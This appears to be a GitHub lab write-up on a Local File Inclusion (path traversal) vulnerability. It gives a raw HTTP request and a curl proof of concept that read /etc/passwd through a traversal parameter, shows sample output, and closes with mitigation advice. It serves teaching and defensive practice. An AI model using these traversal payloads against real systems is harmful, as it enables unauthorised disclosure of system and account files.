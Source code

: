 # 🛡️ Local File Inclusion – /etc/passwd Disclosure

[![Lab Type](https://img.shields.io/badge/Lab-Web_Exploit-blue)](https://github.com/)  
[![Severity](https://img.shields.io/badge/Severity-High-red)](https://github.com/)  
[![Information Disclosure](https://img.shields.io/badge/Impact-Info_Disclosure-orange)](https://owasp.org/)  
[![LFI](https://img.shields.io/badge/Vulnerability-LFI-yellow)](https://owasp.org/)  
[![Linux](https://img.shields.io/badge/Target-Linux-lightgrey)](https://www.kernel.org/)  

---

## 📑 Table of Contents

1. [Overview](#overview)  
2. [Objective](#objective)  
3. [Vulnerability Description](#vulnerability-description)  
4. [Exploitation Steps](#exploitation-steps)  
5. [Proof of Exploit](#proof-of-exploit)  
6. [Proof of Concept](#proof-of-concept)  
7. [Mitigation](#mitigation)  
8. [References](#references)  

---

## Overview

This lab demonstrates a **Local File Inclusion (LFI)** vulnerability in a simulated web application. By manipulating parameters, an attacker can retrieve sensitive system files such as `/etc/passwd`.  

---

## Objective

- Understand Local File Inclusion (LFI) vulnerabilities  
- Learn how improper file handling can lead to sensitive data exposure  
- Practice safe exploitation in a controlled environment  

---

## Vulnerability Description

Local File Inclusion occurs when a web application dynamically loads files based on **user input** without proper validation.  

In this lab:  

- The server mislabels responses (e.g., returning `/etc/passwd` with `Content-Type: image/jpeg`)  
- Attackers can request arbitrary files from the system  
- This results in the disclosure of **sensitive information** such as usernames and service accounts  

---

## Exploitation Steps

1. Intercept a vulnerable request using **Burp Suite** or browser dev tools.  
2. Manipulate the file parameter to include `/etc/passwd`. Example:  

   ```
   GET /vulnerable.php?page=../../../../etc/passwd HTTP/1.1
   Host: target.com
   ```
3. Observe the server’s response. Despite a `200 OK` and `image/jpeg` header, the body leaks system file contents.  

---

## PROOF OF EXPLOIT

```

...
```

<img width="1916" height="1079" alt="File path traversal, simple case" src="https://github.com/user-attachments/assets/751c1972-ccb9-45a8-810a-3b10887d50cf" />

---

## Proof of Concept

Using `curl` to fetch `/etc/passwd` through the vulnerable endpoint:  

```bash
curl "http://target.com/vulnerable.php?page=../../../../etc/passwd"
```

Output:  

```
root:x:0:0:root:/root:/bin/bash
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
mysql:x:106:107:MySQL Server:/nonexistent:/bin/false
...
```

---

## Mitigation

* **Validate and sanitize user input** before using it in file operations  
* **Restrict file access** using whitelists (only allow known safe files)  
* **Use a chroot jail or containerization** to limit file system exposure  
* **Disable detailed error messages** in production environments  
* **Apply the principle of least privilege** for the web server user  

---

## References

* [OWASP: Local File Inclusion](https://owasp.org/www-community/attacks/Path_Traversal)  
* [CWE-98: Improper Control of Filename for Include/Req]()*
